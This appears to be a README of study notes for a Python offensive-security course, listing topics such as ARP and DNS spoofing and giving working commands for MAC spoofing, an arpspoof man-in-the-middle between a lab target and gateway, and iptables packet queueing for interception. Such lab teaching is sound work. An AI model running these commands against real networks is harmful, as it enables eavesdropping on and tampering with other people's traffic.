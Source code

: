 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer
- DNS Spoofer
- Replace Download

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets

To queue all request to number 0
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

to restore them
```
iptables --flush
```

--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

